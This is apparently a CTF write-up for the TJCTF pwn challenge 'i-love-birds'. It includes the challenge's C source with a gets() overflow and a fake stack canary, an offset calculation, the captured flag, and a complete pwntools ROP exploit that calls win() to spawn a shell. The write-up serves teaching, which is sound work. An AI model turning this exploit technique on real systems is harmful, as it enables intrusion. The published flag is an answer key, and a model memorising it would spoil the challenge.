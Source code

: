 ```yaml
---
title: i-love-birds
category: Binary Exploitation
tags: 
completedDuringEvent: true
submitted: true
points : 337
flag: tjctf{1_gu355_y0u_f0und_th3_f4ke_b1rd_ch1rp_CH1rp_cH1Rp_Ch1rP_ch1RP}
draft: false
---
```

so we got the c source and the exe program

`birds.c`:
```c
#include <stdio.h>
#include <stdlib.h>           

void gadget() {
    asm("push $0x69;pop %rdi");
}


void win(int secret) {        
    if (secret == 0xA1B2C3D4) {
        system("/bin/sh");    
    }
}


int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    unsigned int canary = 0xDEADBEEF;

    char buf[64];

    puts("I made a canary to stop buffer overflows. Prove me wrong!");
    gets(buf);

    if (canary != 0xDEADBEEF) {
        puts("No stack smashing for you!");
        exit(1);
    }


    return 0;
}
```
As you can see, there is `gets(buf)`, so this is basically buffer overflow, and it is basically just normal `ret2win` but with canary value, 
```
unsigned int canary = 0xDEADBEEF;
```
After passing through the canary, we will overwrite the return address on the stack. However, we cannot jump directly to the win function because we need to supply the argument 0xA1B2C3D4. On the x86-64 architecture, the first argument to a function is passed through the %rdi register.

![](ropgadget.png)

even tho we have the real source, but we still need to disass it, 

![](disass.png)

buf starts at: `rbp - 80`\
canary starts at: `rbp - 4`

The distance is the difference between the two locations:\
`offset = (canary location) - (buf location)`\
`offset = (rbp - 4) - (rbp - 80)`\
`offset = -4 - (-80)`\
`offset = 76`\

and then for `ret` address\
`0x0000000000401285`

so this is the solver:
```py
from pwn import *

elf = context.binary = ELF('./birds')
p = remote('tjc.tf', 31625)
POP_RDI_GADGET = 0x00000000004011c0 
WIN_FUNC_ADDR = 0x00000000004011c4  
SECRET_VALUE = 0xA1B2C3D4
CANARY_VALUE = 0xDEADBEEF
payload = b'A' * 76
payload += p32(CANARY_VALUE)
payload += b'B' * 8
rop_chain = b''
rop_chain += p64(POP_RDI_GADGET) 
rop_chain += p64(SECRET_VALUE)      
rop_chain += b'JUNKJUNK'           
rop_chain += p64(WIN_FUNC_ADDR)        
final_payload = payload + rop_chain
p.recvuntil(b'Prove me wrong!\n')
p.sendline(final_payload)
p.interactive()
```
![](ilovebirdsflag.png)

